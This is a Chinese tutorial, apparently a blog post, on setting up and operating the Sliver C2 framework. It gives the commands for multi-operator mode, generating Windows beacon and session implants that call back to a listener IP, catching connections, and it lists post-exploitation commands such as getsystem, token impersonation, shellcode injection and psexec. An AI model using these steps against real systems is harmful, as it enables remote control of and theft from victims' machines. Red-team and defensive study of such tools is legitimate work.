

# 介绍

Sliver是一个开源的C2项目，用Golang开发。Sliver的操作与Metasploit的操作类似，但它支持多用户协同。与Cobalt Strike相比，它支持Macos、Windows、Linux客户端以及implant的生成，但它不具备GUI界面，官方提供了一个GUI项目，但是目前已经废弃。项目地址：https://github.com/BishopFox/sliver。

总体来说作为CS的开源替代品是非常好的选择，且二开相对简单，适合作为个人或团队的定制C2框架。

# 安装

在Linux服务器中执行 `curl https://sliver.sh/install|sudo bash` 即可完成安装，安装后主要会生成sliver-server、sliver-client和sliver三个可执行程序。

sliver-server在root目录下，是服务端程序，如果要实现多用户操作，必须启动此程序，后续新建用户等操作都需要在此程序下操作`sudo /root/sliver-server` 。



用户端可以直接去github上下载对应架构的客户端https://github.com/BishopFox/sliver/releases。

sliver在终端模式下是具备自动补全功能的，因此可以多使用Tab。

# 多用户模式


在Server端中新建用户：`new-operator --name client -l 198.19.249.24 -p 20000` 


输入`multiplayer -l 20000` 启动指定端口的多用户模式。

将配置文件复制到client机器的~/.sliver-client/configs目录中，再启动sliver-client。


# Beacons & Sessions

Sliver在远程控制上提供了Beacon模式和Session模式。

Session模式下，Sliver会和受控主机建立持续的连接，执行的命令会立刻返回结果，方便但容易被发现。

Beacon模式下，Sliver与Cobalt Strike一样，有休眠时间，执行的命令会排队，等待受控主机一定时间后执行并返回结果，相对较为隐蔽。

## implant生成

Sliver目前总共支持五种协议：mtls、http/s、dns、wireguard。

生成命令：

```jsx
generate beacon --arch amd64 --os windows --mtls 198.19.249.24:3306 --save ./test.exe 
```

如果想生成的是Session模式，去掉beacon即可。

生成时需要记住很多参数，为了方便，Sliver提供了Profiles来简化这个过程：

```jsx
profiles new --mtls 198.19.249.24:3306 --os windows --arch amd64 --format exe windows_default
```


需要使用时执行`profiles generate --save ./test.exe  windows_default` 。

输出`implants`可以看到所有生成的implant：


## 监听

开启监听只需要使用对应implant的协议名 -l 端口号即可

```jsx
mtls -l 3306
```


使用jobs可以看到当前开启的监听任务：


job1是sliver多用户模式下开启的grpc端口，用于多用户协同操作，job2就是刚刚开启的监听端口。

## 上线

在受控主机上点击木马后，server端和client端都会接到消息：


输入`beacons`可以看到上线的beacon的信息：


`use`命令可以进入该beacon，进入后可以执行`interactive` 转换出一个session，由于需要等待休眠时间，所以需要等待一会儿。


转换完成后再执行`sessions` 可以看到相关信息：


`use`命令可以进入该session。

## 命令列表

```jsx
Sliver:
=======
  cat                查看文件
  cd                 切换目录
  chmod              修改文件或文件夹权限
  chown              修改文件或文件夹所属
  chtimes            修改文件的创建时间和修改时间
  close              不关闭进程的情况下关闭session
  download           下载文件
  execute            执行程序
  execute-shellcode  sliver进程里执行shellcode
  extensions         管理扩展
  getgid             获取 GID
  getpid             获取 session pid
  getuid             获取 session UID
  ifconfig           查看网络配置
  info               查看session信息
  interactive        beacon生成session
  kill               Kill session
  ls                 列出当前目录列表
  memfiles           列出当前 memfiles（unknown）
  mkdir              创建目录
  msf                在当前进程下执行 MSF payload
  msf-inject         往一个进程中注入 MSF payload
  mv                 文件移动或重命名
  netstat            输出网络连接信息
  ping               不使用ICMP，给木马发送回环消息
  pivots             给存活的session列出pivots（unknown）
  portfwd            TCP端口转发
  procdump           Dump进程内存
  ps                 列出进程列表
  pwd                打印当前目录
  reconfig           beacon/session恢复配置
  rename             给beacon/session重命名
  rm                 删除文件或目录
  rportfwd           反向端口转发
  screenshot         屏幕截图
  shell              开启shell
  shikata-ga-nai     二进制shellcode编码器
  sideload           在远程进程中加载和执行共享对象(共享库/DLL)
  socks5             socks5代理
  ssh                在远程主机上执行ssh命令
  terminate          在远程主机上关闭一个进程
  upload             上传文件
  whoami             获取当前用户
```

### Windows特定命令

```jsx
Sliver - Windows:
=================
  backdoor          使用shellcode感染一个远程的文件
  dllhijack         DLL劫持
  execute-assembly  在子进程中加载和执行.NET程序集
  getprivs          获取当前权限
  getsystem         获取一个NT AUTHORITY\SYSTEM的shell
  impersonate       模拟已登录的用户
  make-token        使用指定的凭据创建新的登录会话
  migrate           进程迁移
  psexec            在远程目标上启动一个sliver服务
  registry          操作windows注册表
  rev2self          Revert to self: lose stolen Windows token
  runas             在指定用户的上下文中运行一个新进程
  spawndll          在远程进程中加载和执行反射DLL
```